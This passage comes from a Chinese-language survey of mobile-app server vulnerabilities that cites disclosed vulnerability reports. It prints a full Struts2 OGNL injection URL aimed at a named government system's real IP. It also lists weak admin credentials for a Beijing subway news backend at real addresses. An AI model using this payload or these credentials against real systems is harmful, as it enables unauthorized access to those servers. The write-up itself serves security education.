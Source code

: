 
### 4.框架问题（st2等）

这个并不多但也不容忽视

*[国家统计局手机网站新闻管理系统两处漏洞](http://loudong.360.cn/vul/info/qid/QTVA-2014-113456)*

*[App“将爱”某漏洞可致服务器沦陷，泄露用户信息](http://loudong.360.cn/vul/info/qid/QTVA-2015-193592)*

国家统计局手机新闻管理系统漏洞如下：

![img](http://p0.qhimg.com/t011af6dd11de3a7129.jpg)

```
http://219.235.129.108:8080/NewManager/admin/login.action?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D
```

 

### 5.后台弱口令

由于App站点URL信息并不是很明显，所以管理在设置后台路径和密码方面也显得比较随意

如：

*[北京市地铁站新闻后台管理系统沦陷](http://loudong.360.cn/vul/info/qid/QTVA-2014-124853)*

抓包得到

http://119.254.65.181/SubwayManagement/webservice/SubwayService

往上跨目录得到

http://119.254.65.181/SubwayManagement/和http://119.254.65.181/

两个后台系统，前者存在弱口令admin admin 和 admin beijingditieAppadmin


![img](http://p0.qhimg.com/t01eadd6bc448e76c9d.png)


### 6.越权漏洞

这个漏洞出现率仅次于SQL注入

*[App“逗萌”某处设计不当（附验证脚本）](http://loudong.360.cn/vul/info/qid/QTVA-2015-192485)*

*[社交App“足记”漏洞打包](http://loudong.360.cn/vul/info/qid/QTVA-2015-178379)*

*[App“tataufo”某处漏洞可修改任意用户密码](http://loudong.360.cn/vul/info/qid/QTVA-2015-192209)*



 

拿App“逗萌”某处设计不当为例

在App中对用户添加关注处没有任何验证

